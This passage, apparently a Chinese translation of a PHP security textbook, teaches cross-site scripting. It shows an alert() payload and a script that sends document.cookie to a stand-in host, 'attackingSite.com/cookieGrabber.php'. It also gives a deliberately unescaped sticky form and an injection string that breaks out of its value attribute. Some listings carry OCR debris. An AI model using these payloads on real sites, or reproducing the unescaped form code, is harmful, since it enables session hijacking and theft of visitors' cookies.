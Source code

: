 `<script type="text/javascript">alert('XSS attack');</script>`

或者

***清单 11-9。**一个不可避免的评论，它读取访问者的 Cookies 并将它们转移到攻击者的站点*

`<script type="text/javascript">
document.location = 'http://attackingSite.com/cookieGrabber.php?cookies='
                                 + document.cookie
</script>`

*   重新显示时没有过滤和转义的 PHP 表单。这可以是登录、注册或搜索表单。

考虑一个使用`$_POST`数据填充字段值的表单。当表单提交不完整时，以前的值会填充输入字段。这是一种用于维护表单状态的常用技术。它使用户在输入非法值或错过必填字段时不必重新输入每个字段值。考虑清单 11-10 中的 PHP 脚本。

***清单 11-10。**用 PHP 实现粘性表单处理。无输出逃逸，易受 XSS 影响*

`<?php

$field_1 = "";
$field_2 = "";
if ( isset( $_POST['submit'] ) ) {
    $form_fields = array( 'field_1', 'field_2' );` `    $completed_form = true;
    foreach ( $form_fields as $field ) {
        if ( !isset( $_POST[$field] ) || trim( $_POST[$field] ) == "" ) {
            $completed_form = false;
            break;
        }else{
            ${$field} = $_POST[$field];
        }
    }

    if ( $completed_form ) {
        //do something with values and redirect
        header( "Location: success.php" );
    } else {
        print "<h2>error</h2>";
    }
}
?>
<form action="listing_11_10.php" method="post">
    <input type="text" name="field_1" value="<?php print $field_1; ?>" />
    <input type="text" name="field_2" value="<?php print $field_2; ?>" />
    <input type="submit" name="submit" />
</form>`

如果我们输入到`field_1`中的值:

`"><script type="text/javascript">alert('XSS attack');</script><"`

然后我们提交的表单将无法通过我们的验证检查。表单将重新显示我们未转义的粘性值。生成的标记现在看起来像清单 11-11 中的[。](#list_11_11)

***清单 11-11。**带有 XSS 指数的内插标记*

`<form action="index.php" method="post">
    <input type="text" name="field_1" value=""><script type="text/javascript">alert![images](img/U002.jpg)
('XSS   attack');</script><"" />
    <input type="text" name="field_2" value="" />
    <input type="submit" name="submit" />
</form>`
